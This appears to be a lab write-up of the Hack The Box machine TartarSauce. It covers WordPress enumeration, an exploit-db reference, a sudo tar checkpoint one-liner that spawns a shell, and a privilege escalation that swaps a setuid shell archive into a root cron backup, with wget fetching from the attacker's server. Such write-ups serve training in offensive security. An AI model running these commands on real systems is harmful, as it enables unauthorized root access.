 port 80
http://tartarsauce.htb/robots.txt
![[Pasted image 20221201213750.png]]
monstra-3.0.4/
/wp
![[Pasted image 20230126094040.png]]
### Monstra 3.0.4 

Was basically a rabbit hole meme

### WordPress

`wpscan --url http://tartarsauce.htb/webservices/wp/ --plugins-detection aggressive`

![[Pasted image 20230126094543.png]]
![[Pasted image 20230126094846.png]]
![[Pasted image 20230126094819.png]]
https://www.exploit-db.com/exploits/38861
![[Pasted image 20230126095036.png]]

![[Pasted image 20230126095428.png]]
```
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![[Pasted image 20230126095520.png]]
![[Pasted image 20230126100535.png]]
running linpeas
![[Pasted image 20230126105923.png]]
there is a script that runs every 5 min
```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

This script is a backup program that backs up the files in the directory "/var/www/html" and saves the backup in the directory "/var/backups" with the file name "onuma-www-dev.bak". It also includes a function to check the integrity of the backup to ensure that the backup is complete and not corrupted. If the integrity check fails, an error message is saved in the file "onuma_backup_error.txt" in the directory "/var/backups", otherwise the backup is saved and the temporary files are deleted. The script also includes some additional functionality such as creating a message with the date and time of the last backup in the file "onuma_backup_test.txt" in the directory "/var/backups" and using a random number for the temporary file name for added security.

It also use sudo to run tar command as onuma user, it look like this script is written to be run as root user.


first we send /bin/sh to our attacker machine to change it's owner to root and give it SETUID 
create directory var/www/html/ and add sh binary to it
tar the whole directory up
send it to the target
overwrite the tar file that script creates


```
cp /bin/sh .
python3 -m http.server 8000
wget http://$ip/sh .
sudo chown root:root sh
sudo chmod 6777 sh
mkdir -p var/www/html
mv sh var/www/html/
tar -zcvf pwn.tar.gz var/

```

![[Pasted image 20230126111659.png]]

```
cp pwn.tar.gz .03c9d95e1cfa88892ad1cdfa8d7143446e8b9a98
```
![[Pasted image 20230126112344.png]]
![[Pasted image 20230126112419.png]]
and we are root!
